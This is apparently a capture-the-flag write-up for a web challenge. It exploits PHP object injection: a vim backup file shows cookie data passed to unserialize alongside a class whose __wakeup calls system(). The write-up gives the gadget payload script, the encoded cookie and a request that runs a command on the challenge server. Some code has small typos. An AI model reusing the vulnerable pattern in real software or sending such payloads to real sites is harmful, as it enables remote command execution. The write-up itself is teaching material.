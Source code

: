 # Want More Biscuits

- Level: hard
- Points: 200
- Category: Web

All we know in the begining is that the author of the website loves vim, so immediately we're looking for backups of the source code created automatically by vim. After a few tries, we find one under the name `index.php~`

```php
<?php
// I love PHP.
class User {
        public $userName = 'anonymous';
}

class MyExec {
    public $command = "ls";
    public functin __wakeup()
    {
        system($this->command);
    }
}

$cookie_name = "userCookie";
$u = new User();
$cookie_value = base64_encode(serialize($u));
setcookie($cookie_name, $cookie_value, time() + (86400 * 30), "/"); // 86400 = 1 day

if(!isset($_COOKIE[$cookie_name])) {
        echo "Sorry something went wrong.";
} else {
        $u = unserialize(base64_decode($_COOKIE[$cookie_name]));
}

?>
```
We have an object injection through the cookie because of this line `$u = unserialize(base64_decode($_COOKIE[$cookie_name]));`  and we are looking to trigger the `__wakeup()` method of the `MyExec` class, which means we have to trigger a seralization of an instance of `MyExec` through the injection.

# Solution

We use this script to generate the cookie
```php
<?php
class MyExec {
    public $command = "ls";
    public function __wakeup() {
        system($this->command);
    }
}

print urlencode(base64_encode(serialize(new MyExec())));
?>
```
We now have our cookie injection `Tzo2OiJNeUV4ZWMiOjE6e3M6NzoiY29tbWFuZCI7czoyOiJscyI7fQ%3D%3D1`, we can use it with the python requests library or just send it using a browser extension `requests.get('http://35.225.49.73/wantmorebiscuits/src/', cookies={'userCookie': 'Tzo2OiJNeUV4ZWMiOjE6e3M6NzoiY29tbWFuZCI7czoyOiJscyI7fQ%3D%3D1'})`
At runtime `$u = unserialize(base64_decode($_COOKIE[$cookie_name]));` will become `$u = unserialize(serialize(new MyExec()));` and the `__wakeup()` method will trigger, executing ls.

![Imgur](https://i.imgur.com/5Fo17hN.png)

We then access the `Flag_FGRRDAKKUGBSKKIUHDLLMNEJDK.txt` directory and find the flag.

![Imgur](https://i.imgur.com/lvkw0HN.png)

# Flag

`FLAG{GOD_DAMN_SERIALIZE}`
